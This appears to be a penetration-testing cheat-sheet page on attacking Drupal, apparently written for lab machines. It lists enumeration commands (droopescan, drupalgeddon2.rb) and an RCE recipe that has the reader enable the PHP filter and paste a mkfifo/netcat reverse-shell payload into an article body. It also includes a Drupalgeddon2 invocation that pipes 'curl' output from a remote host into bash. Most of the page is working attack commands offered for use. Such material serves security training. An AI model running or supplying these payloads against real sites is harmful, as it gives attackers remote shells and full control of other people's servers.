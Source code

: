 # Drupal

## Drupal

### Drupal Enumeration

We can use droopescan:

```bash
droopescan scan drupal -u http://10.10.10.102
```

Alternatively, we can use [drupalgeddon2.rb](https://github.com/dreadlocked/Drupalgeddon2) to enumerate and perform a vulnerability scan:

```
ruby drupalgeddon2.rb http://10.10.10.102/
```

### Drupal RCE

First: Modules -> Enable PHP filter&#x20;

Second: Add content -> Article

Then listen in a port of your choosing :

```
nc -lvnp 443
```

Afterward in the Drupal Article **Body** add this payload:

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
```

Next, in the **Text Format**, we select **PHP code.**

Finally, we click on the **Preview** button.

## Drupal Exploits

### Druppalgeddon

```
ruby druppalgeddon2.rb 10.10.10.233
> curl -s 10.10.14.20 | bash
```
